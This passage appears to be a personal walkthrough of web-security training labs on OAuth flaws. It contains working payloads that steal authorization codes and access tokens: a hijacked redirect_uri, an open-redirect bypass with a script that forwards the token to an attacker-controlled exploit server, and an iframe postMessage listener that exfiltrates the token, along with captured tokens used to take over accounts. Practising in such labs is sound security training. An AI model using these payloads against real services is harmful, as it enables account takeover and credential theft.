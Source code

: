     <img src="https://oauth-0ae600b6046441a7847d570a02ab007a.oauth-server.net/auth?client_id=rrfxlxt97swn6lab64807&redirect_uri=https://exploit-0a61000b04614159846d5815014a005f.exploit-server.net/exploit&response_type=code&scope=openid%20profile%20email">

When the victim visits our exploit server, the browser will make a call to the OAuth server asking for the authorization code of the victim's account. But instead sending it to the web server, it is sending the code to our server. Check the log for the code and found this request:

    GET /exploit?code=wWe6IncYPAbZvKsZeJyRlXdE1qJYj5b41xp2zX9qvRD HTTP/1.1

Use that code to login to the victim's account using this request:

    GET /oauth-callback?code=wWe6IncYPAbZvKsZeJyRlXdE1qJYj5b41xp2zX9qvRD HTTP/2
    Host: 0a8300e3049c411984e0594600ce00fe.web-security-academy.net

Once logged in, delete Carlos.

### LAB: Stealing OAuth access tokens via an open redirect
Same as above lab but now, the OAuth server is white-listing the `redirect_uri` parameter to start with: `https://0a58007303fb5d4f80e83a4c007e007f.web-security-academy.net/oauth-callback/`. 
Notice an open redirect with path traversal in the next blog function. Make use of that bypass the white list using this `redirect_uri=https://0a58007303fb5d4f80e83a4c007e007f.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a10005e03a45d8e801439e201d60054.exploit-server.net/exploit&response_type=token&nonce=1440916710&scope=openid%20profile%20email`.
Use this script to make the user ask for the authorization token, when the OAuth server answers back to our exploit server in the hash, extract it and call to our server with the `access_token` appended as a parameter:

    <script>
        if (window.location.hash) {
            window.location = 'https://exploit-0a10005e03a45d8e801439e201d60054.exploit-server.net'+window.location.hash.substr(1)
        } else {
            window.location="https://oauth-0aa0004403675ddd800738cd02790099.oauth-server.net/auth?client_id=w9yk0olkgr0cqzu5z68q1&redirect_uri=https://0a58007303fb5d4f80e83a4c007e007f.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a10005e03a45d8e801439e201d60054.exploit-server.net/exploit&response_type=token&nonce=1440916710&scope=openid%20profile%20email"
        }
    </script>

Visit the log to retrieve the token. Make this request to get the client's API key:

    GET /me HTTP/2
    Host: oauth-0aa0004403675ddd800738cd02790099.oauth-server.net
    Authorization: Bearer PW9GDhVlpu0ui081Un1xA6eu4IFyKhCirF2OZX0X29h

### LAB: Stealing OAuth access tokens via a proxy page
Notice the post comment function is using an iframe, where in its script, it will post a message to the parent with the value of `window.location.href`.
The `redirect_uri` parameter is vulnerable like the above lab. To make use of that, use this script at our exploit server:

    <iframe
        src="https://oauth-0a8700530429098d803747ed026800b6.oauth-server.net/auth?client_id=ct6g8rxfr8cqojpc63zsq&redirect_uri=https://0afe009b042c09c480fa491f006b0008.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=16875317&scope=openid%20profile%20email"
    ></iframe>
    <script>
        window.addEventListener(
            "message",
            function (e) {
            fetch("/" + encodeURIComponent(e.data.data));
            },
            false
        );
    </script>
